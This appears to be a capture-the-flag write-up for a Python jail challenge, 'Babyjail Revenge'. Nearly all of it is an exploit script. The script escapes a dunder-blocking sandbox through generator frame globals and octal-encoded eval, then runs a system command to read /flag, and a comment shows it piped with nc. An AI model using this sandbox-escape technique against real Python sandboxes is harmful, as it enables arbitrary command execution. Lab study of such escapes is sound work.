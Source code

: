 # Babyjail Revenge
- Author: Vincent55
- Category: Misc
- Difficulty: Hard

You are not baby! So you dont need dunder anymore~

## exploit
```python
import sys

payload = """
[*[q:=(q.gi_frame.f_back.f_back.f_globals for _ in [1])][0]][0]['\\x5f_builtins\\x5f_'].eval('\\47\\47\\56\\137\\137\\143\\154\\141\\163\\163\\137\\137\\56\\137\\137\\142\\141\\163\\145\\137\\137\\56\\137\\137\\163\\165\\142\\143\\154\\141\\163\\163\\145\\163\\137\\137\\50\\51\\133\\55\\65\\135\\56\\143\\154\\157\\163\\145\\56\\137\\137\\147\\154\\157\\142\\141\\154\\163\\137\\137\\133\\47\\163\\171\\163\\164\\145\\155\\47\\135\\50\\47\\143\\141\\164\\40\\57\\146\\154\\141\\147\\52\\47\\51')
""".replace('\n', '')

# python exploit.py "cat /flag*" | nc localhost 10004

```
